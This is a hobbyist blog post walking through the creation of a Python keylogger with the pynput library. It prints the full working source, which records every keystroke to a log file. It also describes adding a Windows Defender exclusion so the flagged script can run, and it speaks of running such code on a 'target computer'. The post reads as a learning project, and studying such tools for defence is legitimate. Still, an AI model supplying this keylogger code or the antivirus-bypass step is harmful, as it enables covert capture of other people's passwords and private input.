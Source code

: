 ```yaml
---
title: "Making a Keylogger"
date: 2022-04-14
categories: Projects
---
```


The *keylogger*. The big, bad, sinister program responsible for stealing all your login credentials and, subsequently, your information. Many criminals or those with criminal intent will sometimes call upon the use of a program such as this in a bid to gain access to a network or computer system. For the uninitied, the task of creating and deploying a keylogger may seem like a complicated task but, in reality, it's actually quite simple to get one up and running.

Before we begin, I must give credit to **CyberFault** who made the [YouTube video](https://www.youtube.com/watch?v=QuH_9OGrVt4) in which I discovered this idea for a project from and **Himanshu Tyagi**, who authored [the initial post referenced in CyberFault's video](https://www.codeitbro.com/how-to-create-keylogger-in-python/).

***

Now, I'll be honest: at the time of writing this post, I don't really know anything about making a keylogger, much less creating one in Python (even though I am a little bit familiar with the coding language). But, one doesn't need programming knowledge or skills in order to make something. A little technical and computer know-how goes a long way.

Since Tyagi's post already covers how to setup one's computer with Python libraries, I won't go into that. However, here's the code that I'll be using:

```
{
import pynput
from pynput.keyboard import Key, Listener
import logging

log_dir = r"C:/Users/<username>"
logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
   logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
}
```

Right off the bat, there are two fields of interest that would change how and where the output file from this script is saved to:

* `log_dir = r"C:/Users/<username>"`
* `(log_dir + "keyLog.txt")`

The first piece of code tells the script where to save to while the second tells it what filename and extension to use. Both of these can be changed to whatever but, since I just want to try out the code, I'll modify the directory to match my machine's and allow the file to be written as `keyLog.txt`. Whether in a text editor or an IDE, the next thing is to save this script. I'll give it the inconspicious name of `Keylogger.py`.

![Uh oh](/blastermans-base/assets/images/projects/keylogger/windefendercatch.png)

Let's see what this is:

![WindefenderDesc](/blastermans-base/assets/images/projects/keylogger/windefenderdesc.png)

😂

Seems like Windows Defender thinks the file is malicious so I'll need to make an exception for it.

***

With that saved (and excluded from the antivirus), it's time to run the program. This can be done by simply navigating to the script's directory and executing it through Python:

`py.exe .\Keylogger.py`

Now the file running in the terminal. Since it's capturing my keystrokes, the only thing remaining is to type!

***

After a while of typing, let's see what happened:

![Logfile found](/blastermans-base/assets/images/projects/keylogger/logfiledirectory.png)

Neato. The output log was saved the specified directory. What's inside?

![Tada](/blastermans-base/assets/images/projects/keylogger/keylog.png)

And there we have it. All of my keystrokes were recorded and saved to this text file. From it, I can see what character or command was pressed was captured and the time it was sent. Pretty cool stuff. 😎

***

Admittedly, while I was able to successfully create, run, and view the results of this Python keylogger, it relies on Python libraries that must be already by installed on the target computer. However, it was fun making this script to test and see in action a program that actively records every keystroke sent by the user. 

In the future, I work on making a keylogger that doesn't rely on extra libraries or binaries but instead utilizes programming that comes bundled with the target OS. That would be a more independent program than this one and, thus, more awesome. With that, it's onto the next project...


Thanks for reading!